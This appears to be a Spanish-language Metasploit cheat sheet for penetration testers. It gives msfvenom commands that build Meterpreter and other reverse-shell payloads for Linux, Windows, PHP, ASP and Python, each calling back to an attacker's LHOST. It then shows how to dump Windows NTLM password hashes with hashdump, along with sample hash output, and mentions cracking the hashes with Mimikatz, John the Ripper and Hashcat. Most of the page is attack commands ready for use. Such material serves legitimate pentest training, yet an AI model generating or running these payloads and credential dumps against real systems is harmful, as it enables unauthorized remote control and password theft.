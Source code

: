 # Cheat Sheet Metasploit
Metasploit es un proyecto de código abierto para la seguridad informática, que proporciona información acerca de vulnerabilidades de seguridad y ayuda en tests de penetración "Pentesting" y el desarrollo de firmas para sistemas de detección de intrusos.

### Cargas Útiles
Según la configuración del sistema de destino (sistema operativo, servidor web instalado, instalador intérprete, etc.), msfvenom se puede usar para crear cargas útiles en casi todos los formatos. A continuación hay algunos ejemplos que usará a menudo:
En todos estos ejemplos, LHOST será la dirección IP de su máquina atacante y LPORT será el puerto en el que escuchará su controlador.

LA

**Linux Shell**
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
```
chmod +x shell.elf
```
**Windows Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
```
**PHP Shell**
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
```
**ASP Shell**
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
```
**Python Shell**
```
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py
```

### Dump Password Windows
Las contraseñas de Windows 10 almacenadas como hashes NTLM se pueden volcar y filtrar al sistema de un atacante en segundos. Los hashes se pueden forzar bruscamente y descifrar muy fácilmente para revelar las contraseñas en texto sin formato utilizando una combinación de herramientas, incluidas Mimikatz, ProcDump, John the Ripper y Hashcat.
**Dump Hash**
```
hashdump
```
```
Administrator:500:CEEB0FA9F240C200417EAF40CFAC29C3:D280553F0103F2E643406517296E7582:::
User1:1011:7584248B8D2C9F9EAAD3B435B51404EE:186CB09181E2C2ECAAC768C47C729904:::
User2:1012:AC5BA6A944526699AAD3B435B51404EE:F07A9DFFFC2C5C7F9D9EBC83FD69D68E:::
User3:1013:E7EED3F5C2C85B88AAD3B435B51404EE:6AA15B3D14492D3FA4AA7C5E9CDC0E6A:::

1 Campo: nombre de usuario (Administrador, Usuario1, etc.)
2 Campo: Identificación Relativa (RID): últimos 3-4 dígitos del Identificador de Seguridad (SID),que son únicos para cada usuario
3 Campo: hash LM
4 Campo: hash NTLM
```
